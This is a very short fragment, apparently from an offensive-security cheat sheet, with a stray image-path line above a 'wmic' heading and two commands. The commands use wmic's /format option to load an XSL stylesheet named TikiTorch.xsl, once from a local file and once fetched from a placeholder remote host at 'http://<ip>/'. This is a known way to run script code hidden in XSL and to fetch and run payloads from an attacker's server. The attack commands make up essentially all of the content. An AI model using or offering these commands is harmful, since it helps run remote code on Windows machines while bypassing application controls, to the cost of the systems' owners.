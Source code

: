 ## wmic

```
wmic os get /format:"TikiTorch.xsl"
wmic os get /format:"http://<ip>/TikiTorch.xsl"
```